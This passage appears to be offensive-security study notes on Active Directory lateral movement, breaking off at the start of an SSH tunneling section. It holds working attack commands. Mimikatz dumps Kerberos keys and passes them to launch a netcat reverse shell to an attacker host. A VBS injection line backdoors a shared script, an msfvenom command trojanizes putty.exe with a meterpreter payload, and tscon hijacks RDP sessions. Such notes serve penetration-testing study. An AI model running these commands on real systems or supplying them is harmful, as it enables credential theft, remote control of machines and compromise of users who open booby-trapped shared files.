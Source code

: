 			- When a user requests a TGT, he sends a timestamp encrypted with an encryption key derived from their password. The algorithm used to derive this key can be either `DES` (disabled by default on current Windows versions), `RC4`, `AES128`, or `AES256`.
			- If we have any of those keys, we can ask the KDC for a TGT.
			- Obtain Kerberos encryption keys from memory by using
				- Start mimikatz using `.\mimikatz.exe`
				- `privilege::debug`
				- `sekurlsa::ekeys`
				- Depending on the encryption, we can run a reverse shell using netcat `sekurlsa::pth /user:<username> /domain:<domain> /<encryption>:<key> /run:"c:\tools\nc64.exe -e cmd.exe <attacker-ip> 5565`.
				- **NOTE: RC4 key is the same as the NTLM hash.**
				- Receive the shell using `nc -lvp 5565`.
- ## *Abusing User Behavior*
	- #### *Abusing Writable Shares*
		- Plant specific files in writable shares to force users into executing any payload and gain access to their machines.
		- For example, finding a shortcut to a script or executable file hosted on network.
			- This could be used by administrators to allow users to execute it without copying or installing the application to each user's machines.
			- Although the script/executable is hosted on a server, when a user opens the shortcut, the executable will be copied from the server to `%temp%` folder and executed on the device.
			- By changing the pointed `target` in the properties of the executable, we can point to our payload or even run netcat to open a reverse shell.
		- **Backdooring .vbs Scripts**
			- If the shared resource is a VBS script, we can put a copy of `nc64.exe` on the same share, and inject `CreatObject("WScript.Shell").Run "cmd.exe /c copy /Y \\<ip>\<share>\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker-ip> 1234", 0, True`
			- This will copy `nc64.exe` from the share to the user's `%tmp%` directory and send a reverse shell back to attacker when the user opens the shared VBS script.
		- **Backdooring .exe Files**
			- If the shared file is a Windows binary, for example `putty.exe`, we can download it and use `msfvenom` to inject a backdoor into it.
			- The binary will still work, but will run our payload silently.
			- `msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker-ip> lport=4444 -b "\x00" -f exe -o puttyX.exe`
			- Replace the executable in the share with our newly created one and use the `exploit/multi/handler` module to wait for the `meterpreter` shell.
		- **RDP Hijacking**
			- When an administrator uses RDP to connect to a machine and closes the RDP instead of logging off, his session will remain open on the server indefinitely.
			- If we have SYSTEM privileges on Windows Server 2016 and earlier, we can take over an existing RDP session without requiring a password.
			- If we have administrator access, we can get SYSTEM by a lot of methods, like `psexec.exe`
				- `PsExec64.exe -s cmd.exe`
				- List the existing sessions on a server use `query user`.
				- Any session with `Disc` state has been left open by the user.
				- We can take over active sessions, but the user will be forced out.
				- Connect to a session using `tscon <session-id> /dest:<our-admin-rdp-session-name>`.
- ## *Port Forwarding*
	- Most of the lateral movement techniques require specific ports to be available, in rea-world networks, administrators may have blocked some of these ports or have implemented segmentation around the network, preventing us from reaching `SMB`, `RDP`, `WinRM`, or `RPC` ports.
	- To go around this, we can use port forwarding techniques, using any compromised host as a jump box to pivot to other hosts.
	- It is expected that some machines will have more network permissions than others.
	- #### *SSH Tunneling*
		- Has built-in functionality to do port forwarding.
		- **Example**
			- Assume we have compromised a machine called `PC-1` (doesn't have to be administrator access) and would like to use it as a pivot to access a port on another machine that we cant directly access.
			- We'll start a tunnel from `PC-1` machine, acting as an SSH client, to our attacking machine, which will act as an SSH server.
			- The reasoning behind this is that Windows machines typically contains SSH client and not server.